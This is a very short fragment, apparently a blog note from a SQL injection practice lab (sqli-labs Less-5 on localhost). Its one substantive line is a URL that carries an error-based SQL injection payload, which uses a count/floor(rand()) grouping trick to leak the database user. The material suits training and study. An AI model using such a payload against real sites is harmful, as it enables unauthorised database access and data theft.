 # Blog
http://localhost/sqli-labs/Less-5/index.php?id=1%27+AND+(select+1+from+(select+count(*),+concat(%27~%27,(select+user()),%27~%27,+floor(rand()*2))as+a+from+information_schema.tables+group+by+a)x)+AND+%27%27=%27

